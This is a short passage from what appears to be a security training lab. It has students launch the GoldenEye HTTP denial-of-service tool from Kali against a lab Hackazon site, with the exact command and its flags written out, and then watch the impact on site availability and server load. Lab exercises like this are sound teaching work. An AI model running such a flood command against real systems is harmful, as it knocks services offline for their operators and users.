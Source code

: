 GoldenEye
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

   #. (Kali) Browse to GoldenEye directory and execute attack.

      * cd /root/Agility/GoldenEye

      * ./goldeneye.py http://hackazon-tcp.f5agility.com -d -w 50 -s 200

   #. Observe impact

      * Is site available?

      * Review LTM virtual Server statistics

      * (Hackazon) Server Stats

           1. # top

           2. # free –m

   #. (Kali) Stop attack *<Ctrl>+C*
